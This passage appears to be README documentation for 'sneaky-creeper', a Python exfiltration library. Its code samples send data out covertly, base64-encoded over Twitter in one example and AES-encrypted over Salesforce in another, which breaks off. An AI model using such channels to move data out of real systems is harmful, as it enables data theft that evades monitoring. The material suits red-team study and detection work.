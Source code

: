 
For instance, this code will allow you to transfer over Twitter:

```python
from sneakers import Exfil

# channels actually move data
channel = "twitter"

# encoders let you encrypt/encode/mess with
# the data before you send it
encoders = ["b64"]
# note that they can be chained!

# contains the API keys and details for the
# account you'll post to
twitter_params = {
    "key": "xxxx",
    "secret": "xxxx",
    "token": "xxxx",
    "tsecret": "xxxx",
    "name": "twitter_account_name"
  }

data = "whatever you'd like"

feed = Exfil(channel, encoders)

feed.set_channel_params({
      "sending": twitter_params,
      "receiving": twitter_params
    })

feed.send(data)

print(feed.receive())
```

The real power of sneaky-creeper comes in when you want to change communications channels. Perhaps instead of using Twitter, as above, you'd like to move data over Salesforce, encrypted using AES.

```python
from sneakers import Exfil

# channels actually move data
channel = "salesforce"

# encoders let you encrypt/encode/mess with
# the data before you send it
encoders = ["aes"]
# note that they can be chained!

# contains the API keys and details for the
# account you'll post to
salesforce_params = {
    "username": "xxxx",
    "password": "xxxx",
    "client_id": "xxxx",
    "client_secret": "xxxx",
    "security_token": "xxxx"
  }

aes_params = { "key": "xxx" }

data = "whatever you'd like"

```